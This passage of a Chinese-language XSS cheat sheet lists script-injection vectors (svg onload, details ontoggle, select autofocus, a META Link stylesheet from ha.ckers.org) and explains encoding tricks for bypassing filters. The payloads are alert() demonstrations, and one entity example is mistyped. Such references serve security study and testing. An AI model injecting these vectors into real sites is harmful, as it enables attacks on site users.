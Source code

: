 ```html
<svg/onload=alert(1)>
<svg/onload=alert(2)
<svg/onload="javascript:alert(3)">
<svg/onload=alert(4) <
<svg/onload=alert(5)//
<svg/onload=setTimeout('\141\154\145\162\164\50\61\51')>
```

**`details`**

```html
<details ontoggle="alert(1);">
    
使用 open 属性触发 ontoggle 事件，无需用户触发
<details open ontoggle="alert('xss');">
```

**`select`**

```html
<select onfocus=alert(1)></select>

通过 autofocus 属性执行本身的 focus 事件，
这个向量是使焦点自动跳到输入元素上，触发焦点事件，无需用户触发
<select onfocus=alert(1) autofocus>
```

**`meta`**

```html
<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">
```



### Bypass

#### 编码绕过

**JS编码**

JS提供了四种字符编码的策略，

- 三个八进制数字，如果数字不够，在前面补零，如`a`的编码为`\141`
- 两个十六进制数字，如果数字不够，在前面补零，如`a`的编码为`\x61`
- 四个十六进制数字，如果数字不够，在前面补零，如`a`的编码为`\u0061`
- 对于一些控制字符，使用特殊的C类型的转义风格，如`\n`和`\r`

**HTML实体编码**

以`&`开头，以分号结尾的，即HTML编码，如`<`的编码为`&1t;`

十进制，十六进制的ASCII码或者Unicode字符编码。样式为`&#数值;`

如`<`的编码为`&#60;` (10进制)`&#x003c;` (16进制)

**URL编码**

这里为url全编码，也就是两次url编码
